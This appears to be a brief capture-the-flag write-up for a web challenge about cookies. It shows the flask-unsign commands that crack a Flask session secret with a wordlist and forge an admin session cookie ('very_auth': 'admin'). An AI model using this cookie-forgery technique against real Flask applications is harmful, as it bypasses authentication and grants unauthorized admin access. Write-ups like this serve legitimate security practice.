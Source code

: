 >On analyzing server.py code we find out that the code will check for the session cookie "very auth" and if the session cookie key value is equal to the admin it will redirect us to flag.html page which will have our flag.
>We are also provided with webpage and as the name itself suggests "cookies" we know there is something related to the cookies of the webpage so we ::
Inspect > Application > Storage > Cookies
From there, we see a cookie named session having certain value.

- #### Then using the folowing Block of command on our terminal we will find our flag :
$ pip install flask-unsign[//wordlist]
$ flask-unsign --unsign --cookie "your session cookie value" --wordlist wordlist.tx
> after certain number of attempts we will find our key
- #### Then using this command will provide us with session cookie value:
$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "secret key"

Using this value we can find our flag from the Webpage.


